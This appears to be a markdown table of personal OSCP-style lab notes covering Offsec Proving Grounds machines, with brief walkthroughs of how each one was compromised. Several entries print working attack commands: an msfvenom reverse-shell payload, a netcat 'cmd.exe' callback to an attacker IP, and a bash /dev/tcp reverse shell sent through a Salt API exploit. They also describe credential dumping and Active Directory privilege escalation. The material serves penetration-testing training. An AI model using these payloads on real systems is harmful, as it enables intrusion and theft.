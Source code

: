 |Craft2 |Hard |through Port 80 only accept the .odt(LibreOffice) file, using [badodt](https://github.com/rmdavy/badodf/tree/master) script and responder got thecybergeek user hash using that login into smbclient shell uploaded php revshell, with apache user, using runas as command got thecybergeek shell, in that privesc xampp has password.txt mysql running is root privileges, through write file permissions and [WerTrigger](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#exploit_1) got administrator access. [youtube](https://www.youtube.com/watch?v=-Y4yrwNx8ww&pp=ygUNY3JhZnQyIG9mZnNlYw%3D%3D) |
|Hutch | Intermediate|Mutiple ports are open using ldapsearch found user credentials through that loggin to webdav is their through that cadaver tool login uploaded cmdaspx.aspx, then printSpoofer got administrator access, other way using initial crdes ran bloodhound-python got architecture of AD the user has laps <b>ReadLAPSPassword, ms-Mcs-AdmPwd</b> password got admin creds login as admin [walkthrough](https://juggernaut-sec.com/proving-grounds-hutch/)|
|Internal |Easy | System running on windows server 2008 using smb port exploit tried with metasploit and and no luck ms09-050, after reverting also no response moving next one [blue](https://www.trenchesofit.com/2020/11/24/offensive-security-proving-grounds-internal-write-up-no-metasploit)
[ms09-050](https://pentesting.zeyu2001.com/proving-grounds/warm-up/internal)|
|Jacko |Intermediate |In the ports 80 running the H2 database, it redirects to port 8082 initially no accessabl revert then accessible their is login without password, their is version using exploitDB script, loggedin using the nc or Metasploit non-staged payload, their running PaperSteam IP, identified the version then find the exploit in exploitDB got the shell using powershell bypass worked first first time time ```powershell.exe -ep bypass exploit.ps1```used S1ren video  |
|Kevin |Easy | Identified some ports no information with smb, nbtstart and port 80 running the GOAhead WebServer, with HP power manager, exploitdb 10099.py replaced the buffer with  msfvenom payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.227 LPORT=80 -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed``` got admin access|
|Resourced |Intermediate |Some ports are open using enum4linux and rpcclient(querydispinfo) got user credentials from the description,using that credentials login into smbclient hash 'Password Aduit' folder, using impacket-smbclient tool logged into tools it has SYSTEM and ntds.dit, using this file dump the credentils, using user and NTLM hash spray the credentials with crackmapexec for winrm for with with user, logged in, using bloodhound-python generated .json files, uploaded into bloodhound tool, The user we oned mark as owned the goto -> Node Info -> OUTBOUND OBJECT CONTROL their -> <b>First Degree Object Control</b> theis Generic All permission <b>esource based constrained delegation attack.</b> [Notes](https://github.com/ashok5141/OSCP/blob/main/OSCP%20Commands.md#generic-all-permission-in-active-directory)|
|Squid |Easy |The port running squid proxy on port 3128, using [spose](https://github.com/aancw/spose) found the open ports then using froxyproxy access the port 8080 phpmyadmin created shell with php cmd backdoor RCE through with revshell powershell#3 urlencode got shell, local flag is in the C drive |
|DVR4 |Intermediate |Intial port 8080 not showed in the nmap, showed port 22 Bitvis winssh 8.48, then restart the machine again nmap found port 8080 <b>Argus Surveillance DVR</b> Search in the exploitdb, Directory Traversal(45296), found the ssh key the windows ssh key location ```C:\Users\your_username\.ssh\id_rsa```  also found the weak password(50130) their is path of the password location tried with that but no password is revealed, search with the title with github found [link](https://github.com/s3l33/CVE-2022-25012/blob/main/CVE-2022-25012.py) decrypted password, tried ssh but not working then identified the user folder has nc.exe and psexec.exe using run as command ```runas /user:Administrator "nc.exe -e cmd.exe 192.168.45.214 445"``` logged in as administrator |
|Hepet |Intermediate |Tried(Not complete, offfsec walkthrough) that exploit, from port 79 finger identified the usernames and with description found password with 143 iamp logged in saw that sent mail macro mail to get shell wait for 12 hours no shell back after that run the command for privesc ```wmic service get name,displayname,pathname,startmode <pipe> findstr /i "auto"``` to get admin shell.  |
|Shenzi | | |
|Nickel | | |
|Slort | | |



## Offsec Proving Ground Practice - Linux
| Name | Level | Description|
|:-|:-|:-|
|[Hetemit](https://medium.com/@c00540105/hetemit-proving-grounds-practice-a9d8dc95afd5) |Intermediate | Takeouts from this article give insights into Python code, vulnerable API design done by developers, enumeration of curl command, and Python OS module. Link|
|Twiggy |Easy | It has port 80(web) and 8000(some api) is port 4505,6 are open ZMTP with port 8000 ```curl http://192.168.166.62:8000 -v``` saw that **salt-api/3000-1**  vulnerability using the this [cve-2020-11651](https://github.com/dozernz/cve-2020-11651), got the reverse shell with root access ```python3 cve-2020-11651.py 192.168.166.62 master 'bash -i >& /dev/tcp/192.168.45.248/80 0>&1'``` make the open ports  |